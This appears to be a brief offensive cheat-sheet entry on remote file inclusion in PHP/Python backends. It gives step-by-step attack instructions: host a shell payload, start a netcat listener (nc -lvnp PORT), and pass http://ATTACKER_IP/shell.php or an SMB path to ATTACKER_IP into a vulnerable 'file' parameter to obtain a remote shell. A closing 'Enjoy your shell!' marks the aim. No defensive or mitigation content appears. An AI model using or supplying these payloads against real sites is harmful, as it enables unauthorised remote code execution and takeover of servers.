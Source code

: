 ## Allows an attacker to inject external URL in a vulnerable backend PHP/Python/etc. function.

### Example: 

#### 1: Host payload in an http server then setup a listener.

#### 2: http://site.com/index.php?file=http://ATTACKER_IP/shell.php

#### 3: Enjoy your shell!

### TIP: If you detect an LFI vulnerability on a windows host, try to check if you can send files over SMB to the server like:

#### 1) nc -lvnp PORT (Setup listener)

#### 2) http://site.com/index.php?file=\\ATTACKER_IP\\FILE.php
